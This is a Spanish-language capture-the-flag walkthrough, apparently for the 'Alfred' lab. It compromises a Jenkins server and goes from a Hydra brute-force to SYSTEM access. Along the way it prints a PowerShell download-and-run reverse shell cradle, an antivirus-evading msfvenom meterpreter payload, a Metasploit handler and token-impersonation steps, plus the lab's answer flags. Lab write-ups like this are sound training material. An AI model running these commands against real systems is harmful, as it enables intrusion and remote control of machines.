

# Alfred
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

## Vector de ataque

0. Preparacion
1. Acceso inicial
2. Cambiar shells
3. Escalar privilegios

## 0. Preparacion

Llame a esta etapa 0, porque necesitamos descargar algunas cosas antes de ponernos manos a la obra

en la maquina atacante descargar nishang scripts 
```
git clone https://github.com/samratashok/nishang.git
```
servimos la ruta desde /root
```
cd ~
python -m http.server 8000
```

En otra tab dejaremos nuestro listener ncat
```
nc -lvp 4441
```

## 1. Acceso inicial
Se nos pide escanear la maquina, y se nos dice que solo responde a TCP, entonces.

```
nmap -sT -F 10.10.202.154
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-03 15:05 BST
Nmap scan report for ip-10-10-202-154.eu-west-1.compute.internal (10.10.202.154)
Host is up (0.00018s latency).
Not shown: 97 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
MAC Address: 02:30:23:0D:DD:79 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
```

How many ports are open? (TCP only) **3**

Sabemos entonces que aparte del puerto 80, hay otro puerto sirviendo contenido y cargamos la pagina



Se nos pide vulnerar el user/password. Sabemos que el usuario por defecto en Jenkins es admin por lo que intentaremos romper la contraseña con ese usuario mediante ataque por diccionario usnado hydra.

Primero, necesitamos algunos datos antes de proseguir

1. **url:** http://10.10.202.154
2. **Puerto:** 8080
3. **Pagina que resuelve login**: /j_acegi_security_check
4. **Parametros que se envian al login:** j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in
5. **Mensaje de error:** Invalid username or password
6. **Wordlist para realizar el ataque:** En rigor podriamos usar rockyou.txt (14.344.391 lineas), pero entendiendo que es un caso de prueba cercano a la realidad pero no real, vamos a usar una lista corta (fastrack.txt, que son 222 lineas), si no estaremos un año intentando romper la clave.

Con eso, ya podemos construir nuestro ataque.

```
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 10.10.202.154 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -V -F
```
```
[8080][http-post-form] host: 10.10.202.154   login: admin   password: admin
[STATUS] attack finished for 10.10.202.154 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-09-03 15:19:21
```

What is the username and password for the login panel? (in the format username:password) **admin:admin**

Con esto ya podemos acceder a Jenkins.

Una vez dentro nos encontraremos con que tiene un job creado que tiene el comando whoami, usaremos esto para proseguir con el ataque.

En el job, modificaremos el whoami por lo siguiente
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.61.217:8000/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.61.217 -Port 4441
```

Ejecutando el job veremos que en nuestro listener ncat se levanta la shell windows.
```
Listening on [0.0.0.0] (family 0, port 4441)
Connection from ip-10-10-202-154.eu-west-1.compute.internal 49236 received!
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
```

Ok, necesitamos saber quienes somos
```
whoami
alfred/bruce
```

Buscando que usuarios hay en Users nos percatamos que existe un usuario bruce
```
dir C:\Users
Directory: C:\Users


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        10/25/2019   8:05 PM            bruce                             
d----        10/25/2019  10:21 PM            DefaultAppPool                    
d-r--        11/21/2010   7:16 AM            Public 
```
Veamos si podemos encontrar el archivo que se nos solicita
```
dir C:\Users\bruce\Desktop
Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019  11:22 PM         32 user.txt 

```
```
type C:\Users\bruce\Desktop\user.txt
```

What is the user.txt flag? **79007a09481963edf2e1321abd9ae2a0**

## 2. Cambiar shells

En esta sección se nos pide que lo hagamos por metasploit, para tener una shell mas avanzada.

Creamos un payload, la idea de usar un encoder es evadir deteccion de antivirus de firmas conocidas.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.61.217 LPORT=4444 -f exe -o payload.exe
```

En Jenkins, subimos nuestro payload, ejecutando en el Job lo siguiente:
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.61.217:8000/payload.exe','payload.exe')"

```

En metasploit, usamos un multi/handler para dejar en modo escucha conexiones entrantes
```
use exploit/multi/handler 
use PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.10.61.217
set LPORT 4444
run

```

Nuevamente en Jenkins, ejecutemos el payload de la siguiente manera
```
call payload.exe
```

Eso levantará un meterpreter en metasploit.

```
[-] Handler failed to bind to 10.10.202.154:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175686 bytes) to 10.10.202.154
[*] Meterpreter session 1 opened (10.10.202.154:4444 -> 10.10.202.154:49195) at 2023-09-04 01:03:20 +0100

meterpreter > 
```


What is the final size of the exe payload that you generated? **73802**

## 3. Escalar privilegios
Ya estamos dentro, veamos que permisos tenemos
```
shell
```
```
C:\Program Files (x86)\Jenkins\workspace\project>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```
hay 2 privilegios explotables habilitados (SeDebugPrivilege, SeImpersonatePrivilege)

En meterpreter cargamos el modulo incognito
```
load incognito
```
```
list_tokens -g
```
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

```
```
impersonate_token "BUILTIN\Administrators"
```
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

```
```
getuid
```
Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command? **NT AUTHORITY\SYSTEM**

Si bien representamos a administrator, no tenemos permisos, para ello hay que migrar de proceso.
```
ps
```
```
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 712   668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 772   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 848   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 920   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 936   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 992   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1012  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1076  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1216  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1244  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1348  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1432  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1456  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1484  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1648  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1716  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1772  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1820  1648  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1852  668   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1920  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 1940  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2368  668   taskhost.exe          x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\taskhost.exe
 2384  772   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2576  2696  payload.exe           x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\project\payload.exe
 2696  1820  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 2752  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 3012  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 3048  668   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe

```
```
migrate 668
[*] Migrating from 2576 to 668...
[*] Migration completed successfully.
```
```
type C:\Windows\System32\config\root.txt
```

Read the root.txt file located at C:\Windows\System32\config: **dff0f748678f280250f25a45b8046b4a**